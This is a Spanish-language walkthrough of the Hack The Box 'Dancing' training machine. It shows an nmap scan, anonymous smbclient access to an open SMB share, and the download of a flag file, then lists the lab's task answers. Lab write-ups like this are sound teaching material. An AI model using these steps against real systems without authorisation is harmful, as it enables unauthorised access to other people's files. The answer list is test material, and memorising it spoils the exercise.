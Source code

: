 ```yaml
---
title: HTB - Starting Point - Tier 0 - Dancing Writeup
date: 2022-08-09 09:20:00 +0800
categories: [HTB, Writeup]
tags: [htb, writeups]     # TAG names should always be lowercase
---
```


Este post forma parte de la serie **Tier 0** del **Starting Point** de [HTB](https://app.hackthebox.com/starting-point) que iniciamos [aquí]({% post_url 2022-08-09-htb-writeup-tier0-meow %}).

## Dancing

El primer paso será iniciar la máquina (para lo que previamente tendremos que tener establecida nuestra conexión VPN)

![](/assets/posts/20220809/img04.png)

Copiamos la IP del equipo remoto, en mi caso *10.129.186.250*, y lanzamos un **nmap**.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ nmap -A 10.129.186.250 -oN nmap_output
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-09 12:34 CEST
Nmap scan report for 10.129.186.250
Host is up (0.081s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2022-08-09T14:35:07
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
|_clock-skew: 3h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.54 seconds
```

Significado de las flags:

* `-A`&nbsp;: escaneo completo (aka agresivo) que ejecuta OS detection, version detection, script scanning y traceroute todo del tirón.
* `-oN`&nbsp;: imprime la salida en un fichero de texto con el nombre *nmap_output*

Tenemos el puerto *445/tcp* abierto (SMB) y con el servicio *microsoft-ds* escuchando.

Utilizamos **smbclient** para conectarnos y sacar un listado de los recursos disponibles con el comando ```-L```&nbsp;. Como no tenemos password, cuando nos la pide le damos al Enter.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ smbclient -L 10.129.186.250
Password for [WORKGROUP\ewan67]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.186.250 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Probamos a conectarnos a cada uno de los recursos que aparecen en el listado anterior a ver si alguno nos deja entrar sin contraseña. (Spoiler: el único que rula es el último).

Una vez dentro, brujuleamos y nos descargamos lo que nos parezca interesante.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ smbclient \\\\10.129.186.250\\WorkShares
Password for [WORKGROUP\ewan67]:
Try "help" to get a list of possible commands.
smb: \> ls -la
NT_STATUS_NO_SUCH_FILE listing \-la
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

                5114111 blocks of size 4096. 1732567 blocks available
smb: \> cd Amy.J
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 11:08:24 2021
  ..                                  D        0  Mon Mar 29 11:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 12:00:37 2021

                5114111 blocks of size 4096. 1732567 blocks available
smb: \Amy.J\> get worknotes.txt
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.3 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \Amy.J\> cd ..
smb: \> cd James.P\
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

                5114111 blocks of size 4096. 1732440 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.1 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \James.P\>
```

En nuestro directorio de trabajo tendremos descargado el fichero *flag.txt* con la bandera correspondiente.

## Respuestas:

* <strong>Task 1</strong>: Server Message Block
* <strong>Task 2</strong>: 445
* <strong>Task 3</strong>: microsoft-ds
* <strong>Task 4</strong>: -L
* <strong>Task 5</strong>: WorkShares
* <strong>Task 6</strong>: get